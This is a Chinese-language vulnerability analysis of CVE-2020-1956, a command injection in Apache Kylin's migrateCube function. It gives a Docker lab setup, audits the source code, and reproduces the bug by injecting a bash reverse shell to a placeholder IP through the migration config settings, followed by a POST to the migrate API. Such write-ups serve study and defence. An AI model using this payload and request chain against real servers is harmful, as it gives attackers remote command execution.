Apache Kylin CubeService.java 命令注入漏洞 CVE-2020-1956¶
漏洞描述¶
2020年5月22日，CNVD通报了 Apache Kylin存在命令注入漏洞 CVE-2020-1956
Apache Kylin 是美国 Apache软件基金会的一款开源的分布式分析型数据仓库。该产品主要提供 Hadoop/Spark之上的 SQL查询接口及多维分析（OLAP）等功能。
漏洞影响¶
Apache Kylin 2.3.0 ~ 2.3.2
Apache Kylin 2.4.0 ~ 2.4.1
Apache Kylin 2.5.0 ~ 2.5.2
Apache Kylin 2.6.0 ~ 2.6.5
Apache Kylin 3.0.0-alpha
环境搭建¶
docker pull apachekylin/apache-kylin-standalone:3.0.1
docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

漏洞复现¶
查看这个漏洞修复的补丁

这里可以看到此漏洞有关的参数有三个，分别是 srcCfgUri、dstCfgUri、projectName, 相关的函数为 migrateCube
官方文档中对 migrateCube 的描述

POST /kylin/api/cubes/{cube}/{project}/migrate
下载 Apache Kylin 3.0.1 的源代码进行代码审计,出现漏洞函数的文件为以下路径
apache-kylin-3.0.1\server-base\src\main\java\org\apache\kylin\rest\service\CubeService.java
找到migrateCube函数

@PreAuthorize(Constant.ACCESS_HAS_ROLE_ADMIN
+ " or hasPermission(#cube, 'ADMINISTRATION') or hasPermission(#cube, 'MANAGEMENT')")
public void migrateCube(CubeInstance cube, String projectName) {
KylinConfig config = cube.getConfig();
if (!config.isAllowAutoMigrateCube()) {
throw new InternalErrorException("One click migration is disabled, please contact your ADMIN");
}
for (CubeSegment segment : cube.getSegments()) {
if (segment.getStatus() != SegmentStatusEnum.READY) {
throw new InternalErrorException(
"At least one segment is not in READY state. Please check whether there are Running or Error jobs.");
}
}
String srcCfgUri = config.getAutoMigrateCubeSrcConfig();
String dstCfgUri = config.getAutoMigrateCubeDestConfig();
Preconditions.checkArgument(StringUtils.isNotEmpty(srcCfgUri), "Source configuration should not be empty.");
Preconditions.checkArgument(StringUtils.isNotEmpty(dstCfgUri), "Destination configuration should not be empty.");
String stringBuilderstringBuilder = ("%s/bin/kylin.sh org.apache.kylin.tool.CubeMigrationCLI %s %s %s %s %s %s true true");
String cmd = String.format(Locale.ROOT, stringBuilder, KylinConfig.getKylinHome(), srcCfgUri, dstCfgUri,
cube.getName(), projectName, config.isAutoMigrateCubeCopyAcl(), config.isAutoMigrateCubePurge());
logger.info("One click migration cmd: " + cmd);
CliCommandExecutor exec = new CliCommandExecutor();
PatternedLogger patternedLogger = new PatternedLogger(logger);
try {
exec.execute(cmd, patternedLogger);
} catch (IOException e) {
throw new InternalErrorException("Failed to perform one-click migrating", e);
}
}
PreAuthorize里面定义了路由权限，ADMIN权限、ADMINISTRATION权限和MANAGEMENT权限可以访问该service。
@PreAuthorize(Constant.ACCESS_HAS_ROLE_ADMIN
+ " or hasPermission(#cube, 'ADMINISTRATION') or hasPermission(#cube, 'MANAGEMENT')")
在1087行判断是否开启了MigrateCube设置，如果没有开启则会报错

跟进 isAllowAutoMigrateCube() 这个函数

可以看到这里默认的配置kylin.tool.auto-migrate-cube.enabled就是Flase
public boolean isAllowAutoMigrateCube() {
return Boolean.parseBoolean(getOptional("kylin.tool.auto-migrate-cube.enabled", FALSE));
}
在没有开启配置kylin.tool.auto-migrate-cube.enabled为true的情况下，调用MigrateCube则会出现报错

通过Apache Kylin的SYSTEM模块开启kylin.tool.auto-migrate-cube.enabled为True


设置后再去请求则不会出现刚刚的报错，而是出现Source configuration should not be empty

跟进出现报错的代码块
String srcCfgUri = config.getAutoMigrateCubeSrcConfig();
String dstCfgUri = config.getAutoMigrateCubeDestConfig();
Preconditions.checkArgument(StringUtils.isNotEmpty(srcCfgUri), "Source configuration should not be empty.");
Preconditions.checkArgument(StringUtils.isNotEmpty(dstCfgUri),
"Destination configuration should not be empty.");
这里进行了对kylin.tool.auto-migrate-cube.src-config和kylin.tool.auto-migrate-cube.dest-config的配置进行了检测,如果为空则会出现刚刚的报错
跟进 getAutoMigrateCubeSrcConfig()和getAutoMigrateCubeDestConfig()函数

public String getAutoMigrateCubeSrcConfig() {
return getOptional("kylin.tool.auto-migrate-cube.src-config", "");
}
public String getAutoMigrateCubeDestConfig() {
return getOptional("kylin.tool.auto-migrate-cube.dest-config", "");
}
发现这两个配置默认为空，因为配置允许自定义，所以srcCfgUri和dstCfgUri两个变量均是可控的, 继续向下走，发现一处命令拼接

String stringBuilder = ("%s/bin/kylin.sh org.apache.kylin.tool.CubeMigrationCLI %s %s %s %s %s %s true true");
String cmd = String.format(Locale.ROOT, stringBuilder, KylinConfig.getKylinHome(), srcCfgUri, dstCfgUri,
cube.getName(), projectName, config.isAutoMigrateCubeCopyAcl(), config.isAutoMigrateCubePurge());
logger.info("One click migration cmd: " + cmd);
CliCommandExecutor exec = new CliCommandExecutor();
PatternedLogger patternedLogger = new PatternedLogger(logger);
try {
exec.execute(cmd, patternedLogger);
} catch (IOException e) {
throw new InternalErrorException("Failed to perform one-click migrating", e);
}
}
进入到execute函数
private Pair<Integer, String> runRemoteCommand(String command, Logger logAppender) throws IOException {
SSHClient ssh = new SSHClient(remoteHost, port, remoteUser, remotePwd);
SSHClientOutput sshOutput;
try {
sshOutput = ssh.execCommand(command, remoteTimeoutSeconds, logAppender);
int exitCode = sshOutput.getExitCode();
String output = sshOutput.getText();
return Pair.newPair(exitCode, output);
} catch (IOException e) {
throw e;
} catch (Exception e) {
throw new IOException(e.getMessage(), e);
}
}
private Pair<Integer, String> runNativeCommand(String command, Logger logAppender) throws IOException {
String[] cmd = new String[3];
String osName = System.getProperty("os.name");
if (osName.startsWith("Windows")) {
cmd[0] = "cmd.exe";
cmd[1] = "/C";
} else {
cmd[0] = "/bin/bash";
cmd[1] = "-c";
}
cmd[2] = command;
ProcessBuilder builder = new ProcessBuilder(cmd);
builder.redirectErrorStream(true);
Process proc = builder.start();
BufferedReader reader = new BufferedReader(
new InputStreamReader(proc.getInputStream(), StandardCharsets.UTF_8));
String line;
StringBuilder result = new StringBuilder();
while ((line = reader.readLine()) != null && !Thread.currentThread().isInterrupted()) {
result.append(line).append('\n');
if (logAppender != null) {
logAppender.log(line);
}
}
if (Thread.interrupted()) {
logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
proc.destroy();
try {
Thread.sleep(1000);
} catch (InterruptedException e) {
// do nothing
}
return Pair.newPair(1, "Killed");
}
try {
int exitCode = proc.waitFor();
return Pair.newPair(exitCode, result.toString());
} catch (InterruptedException e) {
Thread.currentThread().interrupt();
throw new IOException(e);
}
}
}
由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell

再去发送POST请求 /kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate

成功反弹一个shell
